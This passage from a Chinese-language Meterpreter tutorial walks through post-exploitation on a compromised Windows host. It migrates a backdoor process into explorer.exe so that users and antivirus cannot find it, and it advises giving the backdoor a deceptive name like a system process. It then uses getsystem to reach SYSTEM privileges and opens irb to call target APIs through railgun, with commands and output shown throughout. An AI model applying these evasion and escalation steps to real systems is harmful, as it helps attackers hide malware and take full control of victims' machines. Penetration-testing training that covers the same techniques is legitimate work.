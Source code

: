 从上面的进程列表中看出，后面进程id是1532的a.exe（其实应该将后面程序名称设置成更有迷惑性的，如svchast.exe），此时很容易被用户或者杀毒软件查到。这时应该使用 migrate 进程进程空间转移，转移的目标到进程id是1968的explorer.exe桌面进程中。

### 执行后门进程内存空间转移

```shell
meterpreter > migrate 1968
[*] Migrating from 1532 to 1968...
[*] Migration completed successfully.
```

从上面得知，进程转移成功，后门进程已经成功的从1532转移到了explorer.exe的1968的进程中去了，由于explorer.exe是windows桌面进程，所以无法查杀。原来的1532的后门进程也没有了，此时可以再次使用getpid命令进程进程id查看。

### 查看后门进程转移后的进程ID

```shell
meterpreter > getpid
Current pid: 1968
```

这里要注意的是，有时候使用`migrate`进程进程转移时并不能成功，此时多数情况是当前shell的用户没有权限导致，可以使用`getsystem`获取管理员权限然后再次执行进程转移。

## 调用目标主机本地API

meterpreter中通过irb进入ruby的交互环境，调用目标系统本地API使用的是**railgun**组件。调用目标系统API运行，这个功能有很大的扩展性，相当于在目标系统上编写代码并运行，可以做的事情由你自己发挥。

### 管理员权限获取

```shell
# 查看当前用户
meterpreter > getuid
Server username: EVAN\wangjun
# 获取系统用户权限
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
# 再次查看当前用户，已变更
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

### 进入ruby交互环境

```shell
# 在meterpreter的shell中使用命令irb进入ruby交互环境
meterpreter > irb
[*] Starting IRB shell
[*] The 'client' variable holds the meterpreter client
>>
```

### 使用railgun组件
